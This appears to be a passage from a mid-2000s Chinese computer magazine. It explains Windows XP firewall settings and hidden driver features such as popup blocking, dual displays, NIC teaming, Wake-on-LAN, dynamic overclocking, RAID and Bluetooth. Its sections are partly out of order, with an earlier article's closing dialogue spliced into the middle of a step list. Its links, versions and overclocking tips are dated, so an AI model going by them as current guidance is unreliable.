防火墙有助于提高计算机的安全性。Windows 防火墙将限制从其他计算机发送到计算机上的信息，这使我们可以更好地控制计算机上的数据，并针对那些未经邀请而尝试连接到计算机的用户或程序(包括病毒和蠕虫)提供了一条防御线。可以将防火墙视为一道屏障，它检查来自Internet 或网络的信息，然后根据防火墙设置，拒绝信息或允许信息到达我们的计算机。

在Microsoft Windows XP SP2 中，Windows 防火墙在默认情况下处于打开状态。虽然也可以安装和运行你选择的任何防火墙，但是，Windows 防火墙设置和使用更为简洁。需要注意的是，如果选择安装和运行另一个防火墙，就必须关闭Windows 防火墙，否则，将导致通信故障。

在网络连接“属性”对话框“高级”选项卡中，单击Windows 防火墙“设置”按钮，显示Windows 防火墙对话框。选择“启用”选项，即可启用Windows 防火墙(见图18)。



若欲允许某些应用程序与外部网络进行通讯，可以直接在“例外”选项卡选择，或者添加应用程序，以及该服务所使用的端口(见图19)。



### 第六招:及时升级补丁

任何一款软件都可能存在漏洞，Windows操作系统也是一样。Windows本身存在许多严重的系统安全漏洞，而许多蠕虫病毒和网络攻击都是借助这些漏洞得逞的，因此，必须经常执行Windows Update，及时升级系统安全补丁，有效防止病毒入侵、提高系统的安全性(见图20)。



老农:对嘛，这才是兄弟，跟你们说，有隐私才是真正的幸福。什么可以分享什么要收藏起来，一定要让自己来掌管。

众人私语:馒头果然留一手，种的木马硬是没有跟老农说，真奸诈!

## 硬件三国之驱动十面埋伏

□夏宇 董非 航瑞 昭毅

话说三国曹操仓亭之战用程昱之计率领10位猛将带十对人马十面埋伏大败袁绍二十万大军，而今我们的电脑之中安装硬件驱动之后也潜伏着许多猛将，只要你找到它们并将它们启用，你便会发现，你的十面埋伏一样可以无往而不利，根本无需再假手其他第三方的软件。今天就请跟我来看硬件三国之驱动十面埋伏。

### 显卡驱动埋伏广告杀手

现在几乎每个网站都有弹出式网页，每次浏览网页的时候，都会自动弹出各种广告或无用的窗口，这些窗口一般也没有什么地址栏、工具栏等，就是个单独的窗口或者是打开几个其他网站的网页，如果网速较慢的情况下，你还得等它们全部弹出来后才能正常浏览你的目的页面，当然过后你还得一个一个地将它们关闭掉。以往要阻止这些自动弹出各种广告或无用的窗口，需要安装第三方的专门工具软件才能实现阻截。

为了清洁浏览、提高网页的访问速度，使用nVIDIA芯片显卡的朋友只需安装版本为61或以上的nVIDIA ForceWare驱动程序后(目前官方最新正式版本为:71.84)，就可启用其新增的“阻止跳出式窗口扩展程序”来阻止弹出式窗口的骚扰，或是使用自定义功能，让用户为每个应用分配一个设置。该驱动程序支持nVIDIA从TNT时代至今的全系列显卡。

- 第一步:从http://www.mydrivers.com/dir112/d45092.htm 下载驱动程序，运行安装，结束后重新启动计算机。
- 第二步:单击“开始→控制面板”找到“nVIDIA nView Desktop Manager”双击，打开后单击“启用”按钮就可以进行设置了(见图1)，在桌面单击右键弹出的快捷菜单中也会发现多出了“nView 属性”。



- 第三步:在“nView Desktop Manager”设置框中选择“应用程序”选项卡，按下“应用程序”标签的“增强”按钮(见图2)，即可弹出应用程序增强设置对话框，将“添加 Internet Explorer 阻止跳出式窗口扩展程序”勾选，并按下“应用”即可启用阻止跳出式窗口扩展程序，其下面的“属性”按钮就变为可用(见图3)。



- 第四步:对阻止跳出式窗口扩展程序进行设置，按下“应用程序增强”框中的“属性”即弹出“跳出式窗口阻止设置”对话框(见图4)，在它的“设置”选项卡下可以设置弹出式窗口被封锁时的提醒及显示方式。如当勾选了“播放声音”项后，当有弹出式窗口被拦截时PC喇叭会发出“嘀”的报警声，勾选“短暂预览跳出式窗口”并设置预览时间后，就可在设定时间内预览将被拦阻的窗口随即程序会把它关闭，如果你对预览的内容发生兴趣不想关闭它时，就需要勾选“短暂预览跳出式窗口”下的“预览后逐渐消失”项，那么按下Ctrl键就可保留窗口了(见图5)。通过“允许”选项卡(见图6)中的“添加”按钮，可以设定一个或多个允许弹出窗口的网站，以后访问这些网站时程序将不阻止它们的弹出窗口，当不允许某个或全部网站弹出窗口时可用“删除”或“删除所有”按钮来执行。在“过往记录”选项卡(见图7)下可以查看和删除被阻止的弹出窗口历史数目和网址或是设置允许弹出窗口的网站，及设置删除弹出窗口历史记录的期限。










- 第五步:浏览网站的过程中，要查看被阻止的窗口时，右键单击Internet Explorer浏览器的“标题栏”选取“nView选项→阻止Internet Explorer跳出式窗口→查看最近封锁的跳出式视窗”在显示的横条内单击要查看的网址即可。
- 第六步:如果需要临时允许某个网站的所有弹出式窗口运行，右键单击Internet Explorer浏览器的“标题栏”选取“nView选项→阻止Internet Explorer跳出式窗口→允许当前站点”即可。

## 尾声

老农:这么快就完了? 我才说几句台词!

汉堡包:你那点电脑水平能出现在CFan杂志上就不错了。

馒头:大家有问题来找我就对了，没有什么解决不了的。

牙签:这么嚣张，今晚CS还想不想活了!

老农:唉，今儿个就到这吧，说是我们的局域网幸福生活，都让你们仨幸福了，我买了个电脑整个是给你们买了个服务器，下次也让我显示一下我的道行!

众人:啥道行?

老农:嘿嘿，且听我下回分解……

众人倒。

## 浏览器的“标题栏”

勾选“nView 选项→阻止Internet Explorer跳出式窗口”下的“允许显示本网站跳出式窗口”项即可。当要临时更改该网站的弹出式窗口被封锁时的提醒、显示方式时，选取“nView选项→阻止Internet Explorer跳出式窗口”的“编辑”项，在弹出的对话框中选择需要的方式后“确定”即可（见图8）。需要注意的是这些更改仅对该网站的本次浏览有效（不会更改已设定的阻止跳出式窗口扩展程序“属性”中的设置）。关闭该网页重新浏览这个网站时，上面的设置无效，阻止跳出式窗口程序仍按照“属性”中的设置运行。

小提示：nView驱动程序自带的阻止跳出式窗口程序，不能阻止弹出的ActiveX控件安装窗口。如3721上网助手、百度搜索伴侣等。

## 显卡驱动埋伏双显奇兵

用电脑当然要工作与娱乐两不误，最理想的工作方式一边做文字处理，一边则在网上看电影。现在，主流的nVIDIA、Radeon的显卡基本上都支持双输出，如果你可以看到显卡有两个视频输出口，那么祝贺你，你可以连接两个独立的显示设备了。我们分别来看看两者的设置步骤。

### 1. nView设置双显输出

打开控制面板中的nView桌面管理软件，选中“自定义配置”，然后进入多显示模式，在这里，默认的显示方案是“单一监视器”。这里我们可以根据需要来选择双头显示的方式（见图9），譬如跨越方式（将两台显示器组成一台）、复制方式（在两台显示设备上使用完全一样的显示参数）和DualView（可以分别设置两台显示设备的分辨率、颜色数等参数）。

接下来，我们可以设定哪一台显示器是显示器1，哪一台显示器是显示器2。可以将显示器1可以用来显示工作窗口，而显示器2则设置为用来看电影。对于“DualView原始多显示器模式”，可以分别为两台显示设备设定显示方式（见图10）。

### 2. 设置Radeon显卡的双显输出

ATI的镭系列(Radeon)显卡作为目前市面上唯一可以与nVIDIA抗衡的显卡产品，其性能自然不容小觑。主流的ATi显示卡基本上都支持双头技术。在桌面上单击鼠标右键，然后在弹出的快捷任务菜单中，单击“属性”，进入“显示属性”窗口。在“显示属性”窗口中，单击“设置→高级”，打开ATI显卡的设置对话框。

默认时，显示方案为“单一监视器”。而当我们通过AV线或S-Video线，将电视机的AV端口与显卡的视频输出端口连接起来之后，“TV”设置面板被激活，此时可以对显示卡“视频输出”进行相关的设置。

(1) 显示卡(显示器)的设置
单击“显示器”按钮，然后在其设置窗口中（见图11），我们可以设置电脑显示器的刷新频率(仅限于Windows 2000/XP)和行、场中心位置及行、场幅度大小。另外，通过“高级”设置，我们还可以调整多显示器时的显示同步方式。

(2) 视频输出(TV)的设置
当我们在单击“TV”按钮(红色:关闭，绿色:开启)，即可对该显示卡输出到电视(TV)的各种信号参数进行设置，例如:亮度、对比度、屏幕大小、屏幕位置、复合信号清晰度、闪烁消除、电视制式(PAL、NTSC等)等等。

(3) 多显示器方式
ATI管“双显输出”叫做“双头技术”，即一个显卡可以同时为两台以上的显示器提供显示支持。在“显示属性→设置”中，以鼠标右键单击2号显示器，随后，选择“启用”（见图12）。

接下来，勾选“将我的Windows桌面延伸到这个显示器上”。如果不选中这个选项框的话，那么第2号显示设备上将没有任何显示内容。确定之后，我们只要将任何一个应用程序窗口，拖到第1号显示设备的显示区域之外时就能从第2台显示设备上见到这个应用程序窗口。另外，我们还可以根据ATI的双头显示的快捷方式，将某个应用程序从某台显示设备上快速转移到另一台显示设备上。方法是用鼠标右键单击任务栏中的任务，在弹出的快捷菜单中，执行“移动至监视器1”或“移动至监视器2”(见图13)。

小提示：许多Intel主板的笔记本集成的Intel Extreme Graphics系列显卡也具有此功能，操作方法基本相同。

## 显卡驱动埋伏虚拟桌面幻象

显示屏幕太小，桌面上东西太多，你想享受多桌面带来的乐趣与便捷吗？如果你使用的是GPU核心的nVIDIA显示卡，这就不是什么大问题，在控制面板里修改nView桌面管理器的设置就可以轻松实现。nView桌面管理程序最高支持32个虚拟桌面，每一个虚拟桌面对用户来说都是完全可定制的，比如说每个不同的虚拟桌面都采用不同的墙纸，并且控制不同的应用程序在不同的虚拟桌面显示。比如说，你可以分别定制三个不同的虚拟桌面，文档、Internet和演示，然后让Microsoft Excel和Word仅仅出现在其中Internet窗口，让PowerPoint出现在演示窗口，由于你可能随时随地都需要接受电子邮件，你可以让电子邮件程序在任何一个虚拟桌面中启动。如果你害怕错过MSN上的朋友发送过来的消息，还可以让这个应用程序的窗口在当前桌面中。特别要指出的是，nView提供了高级透明效果使得用户可以更快的访问或者监视原来被遮挡的窗口的内容，而不用在两个窗口之间来回切换，这可比注销来得快多了！你还可以设置是否使应用程序的窗口在移动的时候有透明效果，你会发觉得你的爱机会出现完美炫的效果！如图14所示。

nView的虚拟桌面之间的内容互不干扰，但可以在不同的桌面之间发送信息。还不赶紧试试？第一步：以系统管理员的身份登录到系统，否则会说你没有修改权限的哟！然后打开“控制面板”，双击“nVIDIA nView桌面管理器”，出现一个下图所示的对话框，我们创建多桌面显示的操作就在此对话框中完成，先给“启用nView桌面管理器”打上对勾，然后再单击“向导”按钮(见图15)。第二步：依次进行向导程序的11个步骤，这些步骤的操作很直观。我们这里就不一一说明了。不同版本的nVIDIA显示卡驱动可能有不同的设置界面，所以以上的内容仅仅作为一个参考。最后要说明的是，完成多桌面配置的时候，你可能会被要求安装IE6。那怎么说？当然是要装一下了，不要告诉我你还舍不得换！虽然前文讲我们可以设置32个桌面，这只是理论上的说，就像磁盘理论上也可以分成N个分区一样，推荐你应该把桌面的数量控制在4个以下，不然当心系统资源很快告罄，机器变成了蜗牛。第三步：完成配置，你可能已经发现你的右键菜单发生了变化。比如右击桌面或者查看应用程序的系统菜单时，都会出现图16所示的菜单，切换桌面的操作就在此菜单中完成。如果你嫌这样切换桌面太麻烦，你也可以定义快捷键，这样就不怕领导突然来袭，忙得手忙脚乱了(见图17)!

## 声卡驱动埋伏PC调音台

声卡是一台多媒体计算机的重要设备之一，一般说来有板载声卡和独立声卡之分，板载声卡较独立声卡需要更多处理器资源协同处理音频流数据，因而也给人们留下了性能低下的印象，它的型号和功能主要取决于板载的音效芯片。由于板载音效芯片处理能力的不断提升、主流处理器频率在2GHz以上的配置下，板载声卡和普通独立声卡之间的性能差异越来越小了。

有时候大家只注意关注硬件，却忽略了同样重要的软件——声卡的驱动程序。现在各芯片厂商都经常更新自己的驱动程序，而新版的驱动里往往都会添加一些新的功能，下面我们就以Realtek Semiconductor(瑞昱半导体)的ALC系列最新的3.70版驱动为例，看看新版本的驱动给我们带来了怎样的惊喜。

首先我们可以从http://www.mydrivers.com/dir112/d44868.htm下载到3.70版的驱动。

安装后重启电脑，任务栏里会多出一个声音图标，双击它即可打开主程序界面，可以看到我的电脑声卡芯片型号是ALC202A，DirectX版本为9.0。

在音效选项卡里，我们可以方便地设置环境音效，比如房间、音乐厅等，十分有趣。

还可以选择是否进行人声消除，只要你在播放音乐时打开这个功能，你的电脑就变成了一台点唱机，自己想怎么唱就怎么唱了(见图18)。

均衡器(EQ)，就是我们在Winamp等播放软件上见到的那种调节器。上面都标着记号，说明是什么频段。一般电脑常用的是十段均衡，就是调节十个频段。很多声卡都内置了十频段的硬件EQ，能够对十个频段进行增益或衰减的操作。在均衡器选项卡里可以方便地设置各种均衡效果，你可以选择预设的各种效果，也可以自己调制效果，足以满足你的各种要求(见图19)。

当你调节完毕后，将结果保存下来，你就拥有了自己的EQ方案。试试看，效果应该不错。只要你有耐心，总会找到适合你的EQ设置，从某种程度上说，你已经充分挖掘了声卡的价值。瑞昱的这款驱动就给大家介绍到这里吧，拥有ALC系列芯片的用户赶紧去DOWN这款驱动，绝对物超所值！

### 小知识

各频段是干什么用的，对声音的影响是怎样的呢？

- 超低音：20Hz～80Hz，调节使得声音强而有力。能控制低音鼓、管风琴和贝司的声音。过度提升会导致音乐低音变得混浊。大多数音箱对于这一范围的声音不能回放，因此不用太在意。
- 低音：80Hz～200Hz，是声音的基础部分，其能量占整个音频能量的70%，是表现音乐风格的重要部分。调节得当时，低音弹性很好，声音丰满柔和，不足时声音单薄，没有厚度。过度提升时会使声音发闷，明亮度下降，鼻音增强，有些年代久远的录音的感觉。
- 中低音：200Hz～500Hz，是声音的主要结构部分，人声位于这个位置。不足时，人声会被音乐压制，声音干涩且软绵绵的，适当提升时会感到人声变得浑厚有力，提高人声的力度和厚度。提升过度时会使低音变得生硬，人声与音乐脱节，且清晰度受到影响。
- 中音：500Hz～3kHz，大多数乐器的泛音在这一区域，是打击乐器的特征音。调节得当时声音清晰度好且声音很亮，不足时声音模糊不清。过度提升时会产生一种金属声。
- 高音：5kHz～8kHz，是影响声音层次感的区域。过度提升可以做出人声的齿音，但是耐听度下降。
- 极高音：8kHz～20kHz，调节得当时，三角铁声音的通透感和颗粒感高，过度提升会使声音不自然，易烧毁高频单元。

## 网卡驱动埋伏无敌双枪

现在的市面上越来越多的主板都内置了双100M网卡，高端的更是双1000M卡。笔者发现，大部分人只使用了其中的一块网，难道另外一块就没什么用了吗？当然有，这就是下面我们要讲的用Intel Proset驱动来打造双网卡无敌双枪。

双网卡，就是通过软件将双网卡绑定为一个IP地址，许多高档服务器网卡（例如Intel8255x系列、3COM服务器网卡等）都具有多网卡绑定功能，可以通过软硬件设置将两块或者多块网卡绑定在同一个IP地址上，使用起来就好像在使用一块网卡。

多网卡绑定的优点不少，首先，可以增大带宽，假如一个网卡的带宽是100M，理论上两块网卡就是200M，三块就是300M，当然实际上的效果是不会是这样简单的增加的，不过经实际测试使用多个网卡对于增加带宽，保持带宽的稳定性肯定是有裨益的，如果交换机等相关条件不错的话，这个效果还是很能令人满意的。

其次，可以形成网卡冗余阵列、分担负载，双网卡被绑定成“一块网卡”之后，同步一起工作，对服务器的访问流量被均衡分担到两块网卡上，这样每块网卡的负载压力就小多了，抗并发访问的能力提高，保证了服务器访问的稳定和畅快，当其中一块发生故障的时候，另一块立刻接管全部负载，过程是无缝的，服务不会中断，直到维修人员到来。好的，让我们马上动手吧。

先用网线将两块网卡全部联上交换机。下载英特尔Intel Pro 100/1000系列网卡最新驱动程序9.2版For Win2000/XP/2003(http://www.mydrivers.com/dir109/d43682.htm)，这是Intel自己的网卡驱动包，基本支持所有的基于Intel芯片的网卡。安装驱动程序，进行绑定设置。

第一步：打开设备管理器，双击网卡图标即可看到属性，在Teaming选项卡可以看到当前的默认绑定情况为“无绑定(Do not team this adapter)”(见图20)。

第二步：点击“Team with other adapters”，再点旁边的“new team”按钮即可打开如图21所示的“绑定向导”，首先填写绑定后的名称，点击下一步。

第三步：选择需要绑定的多块网卡(这里使用主板集成的两块网卡做绑定)。同样点击下一步(见图22)。

第四步：选择绑定类型为第二种“adaptive load balancing”，点击下一步后完成(见图23)。

### 小提示

- 百兆和千兆网卡都可以用来绑定，但不要把10M网卡和100M网卡绑定在一起，那样根本起不到提升作用。
- 如果你使用的是不是Intel的网卡也没有关系，请参阅本刊2004年12期《双卡奇兵 网速大跃进》一文，它会教你用XP的桥连实现双网卡提速。

## 网卡驱动埋伏异地唤醒术

一般目前在使用的中的主板都支持键盘、调制解调器唤醒开机和网络唤醒开机等功能，随着网络技术的发展，联网的电脑越来越多，异地办公的需求增加了。同一个局域网内，常常会因为需要联络的电脑因为种种原因关机了，隔着几层楼，跑过去不累死才怪呢！这个时候你一定会想到通过网络来唤醒那台不该睡眠的计算机吧！然而这方面的资料太少，以至于不少已支持网络唤醒的电脑并没有调试正确，唤醒功能也成了聋子的耳朵一摆设。下面我们就来看看到底怎样设置网卡的异地唤醒功能。

1. 硬件方面的苛求
    首先主板要支持。支持网络唤醒的主板一般在PCI插槽附近有一个三脚插座，旁边标注“WOL”(Wake On Lan)。在BIOS设置中设置允许网络唤醒，即将BIOS中“Wake On LAN”或者“Resume by LAN”选项设置为“Enable”。
    其次必须要有网卡支持。这类网卡在板卡上比一般的网卡多了一个三脚插座，并且通常还附带一条专用的三芯连接线，该线是用来连接主板和网卡之间的三脚插座。对于某些集成网络唤醒功能网卡的主板来说，没有三脚插座，更不需要专用的三芯连线。
    最后还必须要使用ATX电源，而且其+5V Standby电流必须比较大，根据Intel的建议，它需要在600mA以上。该电流的大小可以从电源外部标识中的+5VSB栏里查到。

2. 查机器的Mac地址
    要唤醒机器，首先要知道是唤醒谁。由于被唤醒的计算机处于关机状态，也就没有了IP地址和计算机名字，唯一能标识其身份的只有内部网卡的物理地址，即MAC地址，该地址是全球惟一，每块网卡的MAC地址均不相同。最简单的方法是在DOS状态下输入：ipconfig /all，一般最后面的一行Physical Adress就是你网卡的MAC地址。
    当用户知道被唤醒的计算机MAC地址后，通过另外一台计算机向网络上发出含有该地址的特殊数据包。此时，被唤醒的计算机虽然处于关机状态，内部网卡控制芯片通过专用连线所送来的电流，仍然可以接收和处理网络上的数据包。因此控制芯片通过检查数据包内的MAC地址，就可确认自己就是该数据包的收件者，然后通过专用连线发出开机信号，通知主板开机启动。

3. 驱动软件使用
    为了唤醒网络上的计算机，必须发出一种特殊的数据包，一般只有专用软件才能产生。比如AMD公司制作的Magic Packet，这套软件可以生成网络唤醒所需要的特殊数据包。该数据包包含有连续6个字节的“FF”和连续重复16次的MAC地址。Magic Packet受到很多网卡制造商的支持，大部分具有网络唤醒功能的网卡都能与之兼容并随卡提供，所以我们把它看作是网卡的驱动程序的一部分。它可以在http://down.kjsc.com.cn/html/010062001052902.html下载到。

第一步：运行magpac.exe，其界面如图24所示。

第二步：选择“Magic packets → Power On One Host”，出现如图25所示的画面。

第三步：在“Destination Ethernet Address”对话框中填入所要唤醒的计算机MAC地址，然后单击“Send”，远远地你似乎就能听到“嘟”的一声，那是对方计算机在启动了。

## 主板驱动埋伏动态超频大法

目前不少主板都支持动态超频技术，虽然有人仍对动态超频的实际效用颇有微词，但动态超频还是满足了众多超频爱好者的苛求。各大主板厂商用来实现动态超频的技术也是八仙过海，各显神通。这里笔者就较早提出动态超频概念的微星D.O.T做一个简单的介绍。
D.O.T(Dynamic Overclocking Technology)动态超频技术是微星包含在智能芯CoreCell下的一个技术。它可以针对程序执行时的CPU使用率，来调整CPU的运作频率。举例来说，当您在进行3D游戏、或是影像处理这种需要大量CPU资源的行为时，CPU运作频率会提升一定幅度，帮助计算机以更佳的效能来进行游戏或是影像的计算。但当您在上网或是做硬盘重组这种一般行为时，CPU则维持原本的速度来运作。
传统的手调超频时，计算机就在未死机前一直在超频的状态下使用，很有可能损坏硬件，减短CPU寿命。而动态超频的幅度都是在CPU所能接受的合理超频范围之内，不需要再有这样的顾虑。
CoreCell芯片被微星称为“智能芯”，微星的新款主板上都集成了这块芯片。CoreCell芯片为微星主板提供了超频的硬件支持，它自身还能够提供很多其它的功能比如电源管理，使用寿命管理等，通过BIOS设置以及相关软件的配合能够将这颗智能芯的功能充分发挥出来。

第一步：在BIOS设置界面中开启动态超频。
在BIOS设置界面的“Frequency → Voltage Control”选项中的第二项就是“D.O.T Range”，共有7个选项供用户选择: Disabled(关闭动态超频)、Private(士兵)、Sergeant(军士)、Captain(上尉)、Colonel(上校)、General(将军)和Commander(司令)，取名非常形象，超频的幅度是依次上升的。其中第3级Captain也是BIOS中“Load High Performance Defaults”的缺省值。一般来说，只要保证散热条件良好，设定到General或Commander应该是没问题的(见图26)。

第二步：用CoreCenter管理软件设置动态超频。
CoreCenter是微星为CoreCell芯片量身定做的配套软件，主要功能是通过CoreCell实现超频、监控和设置各种相关参数。
CoreCenter界面直观明了，分为左中右三块。左边一栏从上到下依次显示的是当前CPU的各个电压状态，点击最左边的小红箭头，可以调节FSB、CPU核心、内存和AGP的电压，这些都是超频的关键设置，按OK按钮使设置生效(见图27)。

左边的四个按钮的作用很明确: Auto 即自动超频，按下之后软件就会自动对外频以1MHz为单位尝试超频，整个过程无需干预，可以看到中间显示出来CPU的工作频率在不断增加，直到超至CPU坚持不住自动重启为止。软件会自动将重启之前的最后一次稳定超频状态保存下来，重启之后自动加载生效，这样CPU就工作在软件测试出来的最高频率下；Default恢复为缺省值，也就是当前BIOS里面的设定状态；点击Save则可以将当前状态保存下来，下次启动软件时就能够自行加载保存的设置。在此过程中随时按下“Stop”键则将频率固定为正在调试的位置。
中间部分其实就是状态栏，实时显示当前CPU的频率，上面的进度条就是在自动超频时作出显示。右边一栏显示的是电脑的实时硬件状态，从上到下依次为CPU、系统、北桥芯片的温度和CPU及北桥风扇的转速。同样点击最右边的小红箭头，可以调出报警设置的菜单，在里面可以自定义CPU、系统、北桥、CPU以及北桥风扇转速报警。只要拖动滑块，上面就会有数值提示，确定之后点OK就保存设定了，旁边的Default就是返回默认。
另外，点击左下角醒目的“OC MENU”，左面的菜单将自动更换为OC MENU菜单，里面用来设定内存频率，这与BIOS中的选项基本相同。单击上面的CoreCenter标志，可调出调节CPU和北桥风扇的菜单。有“Auto”和“User mode”两种模式，在“User mode”中可以自行在八个模式中调整CPU风扇的转速。怎么样，功能强大吧？

## 主板驱动埋伏 RAID 超级硬盘

RAID存储方案在个人电脑系统渐渐开始应用，Intel也很快发现了这一块新兴市场，于2003初就发布了第一款直接支持RAID 0、1的南桥芯片——ICH5R，紧随其后VIA、SIS和nVIDIA也都发布了各自直接支持RAID的南桥芯片。一时间市场上就有着越来越多的主板具备了直接支持RAID的功能。虽说它们的功能目前看来还尚显简单，大都只支持RAID 0、1，但就是这小小的进步，比起以Silicon Image和Promise为代表的几百元一张的第三方SATA RAID卡解决方案起来。这支奇兵的突然到来，给我们这些精打细算的小百姓带来了更多的方便和实惠。

Intel的ICH5R南桥是首个将SATA和RAID技术特性的支持整合到芯片组上的厂家，一般用于8X5系列的主板中(见图28)。而ICH6R作为ICH5R的升级南桥版本，主要用于9X5系列的主板中，增加了SATA接口和多加了RAID 0+1模式，最重要的是拥有创新的Matrix Raid，所谓Matrix Raid就是透过ICH6南桥芯片控制，让两颗硬盘同时具备RAID 0和RAID 1功能，在1个物理磁盘阵列当中创建2个虚拟的磁盘阵列。因为9X5系列的主板目前在市场上并未大面积铺货，所以现在采用ICH6R南桥的主板并不多见。如果你的机器主板正好是8X5系列，又碰巧手头又新买了SATA硬盘，那还等什么呢？一起来提升机器的性能吧。



## 1.组建SATA RAID 0阵列

许多865G、865PE、875P主板芯片组都采用了Intel的82801ER(ICH5R)芯片。ICH5R芯片具有的RAID Migration(RAID迁移)技术大大简化了用户使用RAID的升级过程。如果你想将现有的一颗硬盘的系统升级到RAID 0模式，只要安装第二硬盘后，进入BIOS设置，选择“Integrated Peripherals(综合设置)”，再进入OnChip IDE Devices(IDE接口设置)，将SATA模式设置为“RAID”。Intel英特尔芯片组主板Application Accelerator RAID Edition软件的阵列建立功能便会在后台自动完成向RAID模式的转换工作，完全免去了以往繁琐的操作过程，也无需重新安装操作系统。需要说明的是，在RAID系统建立后，用户即便随意更换磁盘接口和磁盘顺序，也不会破坏RAID系统。如果你不想使用RAID功能，你可以在BIOS里面关闭RAID的支持。用不了几分钟时间RAID 0磁盘阵列建立好了(见图29、30)。





## 2.组建RAID 1

ICH5-R的RAID 1的安装稍显复杂，首先在BIOS里面打开RAID的功能，并且不在BIOS设置任何RAID的设置。第二步到http://www.mydrivers.com/dir73/d29466.htm下载Intel英特尔芯片组主板Application Accelerator RAID Edition应用程序加速器驱动最新3.5版本版。

进入Windows XP系统后，使用Intel的Application Accelerator软件来建立我们的RAID 1磁盘阵列。方法是右击选择建立或者是删除。然后按提示信息确认(见图31)。



## 小知识

Serial ATA(简称SATA)，是Intel公司和APT Technologies, Inc.、Dell、IBM、Maxtor及Seagate等几家厂商共同制定的新一代硬盘传输接口标准。其传输方式是将许多数据位封装成一组封包，然后以比平行模式快30倍的速度在来源与目的地之间来回传送数据封包。

RAID 0，是一种最简单的磁盘阵列，就是将所有硬盘视为一个大的逻辑硬盘，采用数据分块并行传送的方法，把数据以块为单位依序分开存入各个硬盘，有非常好的存取效率以及超大的硬盘总容量。

RAID 1，就是每一块硬盘都有一个相对应的镜像盘，每一个写入磁盘的数据都会被复制到镜像盘中，系统可以从一组镜像盘中的任何一个硬盘读取数据，所以又被称为镜像的RAID制式，使得数据的安全性得到了最大的保障，硬盘的容量利用率为50%。

RAID 0+1，它是磁盘分段及镜像的结合，综合了带区集和镜像的优势，优化了RAID 0及RAID 1的特点。其实就是采用2组RAID 0的磁盘阵列互为镜像，让它们之间又成为了一个RAID 1的阵列。所以可以提供最佳的速度体验和更好的安全性能，可硬盘的容量利用率和RAID 1相同，为50%。

## XP SP2 埋伏蓝牙

蓝牙技术是一种无线数据与语音通信的开放性全球规范，以低成本的近距离无线连接为基础，为固定与移动设备通信环境建立一个特别连接的短程无线电技术。不少先富起来的人购买了内置蓝牙的本本，最近又新添了部蓝牙功能的手机。但苦于不知如何驱动？下面我们就来看看如何使用本本蓝牙驱动来使用新手机。

蓝牙使用内制在9×9平方毫米微芯片上的短程射频链接，工作在2.4GHz ISM(工业、科学、医学)频段。该频段全球开放，意味着从理论上说，采用这些无线联网技术的设备在全球任何地点都可以正常使用。它的一般连接范围是10米，通过扩展可以达到100米；不限制在直线范围内，甚至设备不在同一间房内也能相互链接；以点对多点的方式链接多个设备，最多可达7个，形成一个个人领域的网络。

我们用来做示范的系统是内置蓝牙的XP SP2。手机是Philips Fisio820，整个过程只需要几分钟！

第一步：打开双方的蓝牙设置为“开”，双击控制面板里的“蓝牙设备”图标可以看到当前没有连接设备。

第二步：点击“添加设备”会出现“添加蓝牙设备向导”(见图32)。选中里面的“我设备已经设置并且准备好，可以查找”，点击“下一步”开始搜索。系统会成功查找到笔者的手机，再次点击下一步(见图33)。

第三步：这里我们选择“为我选择一个密钥”继续下一步(见图34)。

此时手机上会出现要求输入密钥的对话框，输入系统提供的一组数字即可(此处为36648430，见图35)

第四步：输入完成后系统和手机就已经通过蓝牙方式连接成功了(见图36)。

此时就可以很方便地通过系统托盘处的蓝牙图标进行文件的传递了(见图37)。

蓝牙定义了计算机和通信设备之间如何进行通信，也定义了如何将某一个应用映射成硬件以便和蓝牙技术相融合。使用蓝牙技术制造













的蓝牙芯片、无线耳机，个人局域网。现在已经越来越多，将来甚至可在玩具、家用电器、普通电话、汽车等传统产品里都会有蓝牙芯片。那时候，我们的本本，就成了名副其实的个人数码集中控制器了。

## 驱动无数小将全待命

硬件驱动程序中更有无数只需一两步设置便能起到意想不到作用的功能设置，我们一一为你列出，让你一看便明。

## 1. 让全屏幕视频更亮丽

位置：“显示属性→设置→高级→GeForce FX5600→色彩校正” 数字振动功能一般分为四级，级数越高，显示画面越亮丽，因此该功能在全屏观赏视频的时候可明显提升画面显示效果。不过，在平时的电脑操作中，数字振动开得太高会让人觉得屏幕刺眼。



## 2. 刷新率超频功能

位置：“显示属性→设置→高级→GeForce FX5600→刷新率超频” 该功能可解决进入游戏之后，显示器刷新率自动恢复为60Hz的问题。在版本旧一些驱动程序中，需要进入“Direct3D 设置”中才能找到该项设置。



## 3. ATi 显卡“热启动”

位置：“显示属性→设置→高级→VPU Recover” 这是显示芯片重置功能，当驱动和硬件已经停止响应时，程序会重新独立启动图形处理器，这样就可以避免电脑彻底死机。不过，开启该功能就不能对显卡进行超频，否则很容易造成黑屏、死机等问题。



## 4. 开启 WMV 视频硬件加速

位置：“显示属性→设置→高级→选项” 该功能主要是对视频播放进行优化，减少视频文件回放画面中的马赛克，提高播放画面的效果和流畅度。但开启此功能会使一些电脑出现花屏的问题，这主要是显卡本身品质问题或超频所致。另外，开启此功能之后，还可能导致在线播放视频画面模糊的问题，将此功能关闭即可解决。



## 5. 针对视频画面调整

位置：“显示属性→设置→高级→覆盖” 该项功能是可对正在播放的视频画面效果进行相应地调整。调整包括亮度、对比度、饱和度、色调及 Gamma 等，但该项调整只是针对正在播放的视频画面，而不会影响系统及其他程序（如Photoshop、游戏等）的显示效果。也正因如此，该功能也只有在系统进行视频播放时才是可调整的。而在没有进行视频播放的时候，它成灰色不可操作状态。此外，它还具备专门针对双屏应用的“影院模式选项”，但此功能在单一显示器下不可用。



## 6. Sensaura 3D 声音处理功能

位置：“BlackGold Ⅱ 5.1音频属性→常规→交互式 3D 音频” 这是应用在黑金Ⅱ声卡上的一项声音处理技术，它和以前的 A3D 和 DirectSound 3D 的地位很相似。它主要包含了 MacroFX、EnvironmentFX、ZoomFX 和 MultiDrive 四项技术。在开启了该功能之后，可得到更加真实的空间感、距离感、音场感与互动效果。



## 7. 数字音效自动增益控制

位置：“控制面板→音效管理→音效” 该功能主要作用在于将数字声音规格化，这样就可控制其输入信号的功率，让系统在过荷时避免出现严重的音效失真，同时在输入信号过低时，自动补偿、调整到最佳状态。开启该功能，对音频的录制、播放都会有一定的好处。



## 8. 光驱的数字 CD 音频功能

位置：“系统属性→硬件→设备管理器→DVD/CD-ROM 驱动器→光驱具体型号→属性” 该功能在 Windows Me 以上版本的操作系统中才具备。它能让系统直接通过数据线读取 CD 驱动器中的音频 CD 光盘而不需要经过 CD 驱动器的数模转换器，从而提升系统的 CD 播放功能与播放质量。凡是能开启此功能的系统及 CD 驱动器，都不需要再连接声卡与 CD 驱动器之间的模拟音频输出线。



